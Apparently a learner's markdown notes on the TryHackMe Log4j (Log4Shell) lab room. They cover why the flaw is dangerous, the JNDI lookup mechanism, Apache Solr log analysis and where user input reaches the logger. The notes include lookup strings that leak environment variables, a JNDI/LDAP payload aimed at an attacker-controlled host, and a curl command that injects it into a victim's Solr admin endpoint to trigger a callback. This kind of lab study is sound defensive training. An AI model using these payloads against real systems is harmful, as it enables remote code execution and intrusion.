

# Log4j
https://tryhackme.com/room/solar

## What makes it dangerous?
1. easy to exploit
2. abundant
3. gives remote code execution

## What features are exploited in Log4j?
1. JNDI
2. Support for message lookups

## What are the apps affected so far?
https://github.com/YfryTchsGD/Log4jAttackSurface

## what are more resources to check on the vuln?
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
https://log4shell.huntress.com/
https://www.youtube.com/watch?v=7qoPDq41xhQ

## investigating the apache solr logs
`/vas/solr/logs/solr.log`

## by viewing the logs:
`2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0`
## we notice that there's an HTTP solr call in the path `/admin/cores` and the params are empty braces where user input can be injected and evaluated as code

## Example statments that can be evaluated:
- `${sys:os.name}`
- `${sys:user.name}`
- `${log4j:configParentLocation}`
- `${ENV:PATH}`
- `${ENV:HOSTNAME}`
- `${java:version}`

## the payload however leverages the JNDI (Java Naming & Directory Interface) which can access external resources
`{JNDI:LDAP://<ATTACKERCONTROLLEDHOST>}`

## Question is: what location can we use this payload?
## the answer is: ANYWHERE that's logged by log4j
- Input user/password login forms
- Data entry points in the application
- HTTP Headers like User-Agent, X-Forwarded-For or other headers

*In short: any place for user-supplied data*

## More information on JNDI Attack vector
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

## Checking if the vuln exists, we run a curl
`curl 'http://<VICTIM>:8983/solr/admin/cores?edelo=$\{jndi:ldap://<LHOST>:<LPORT>\}'`
## we get a connection back on our listening port

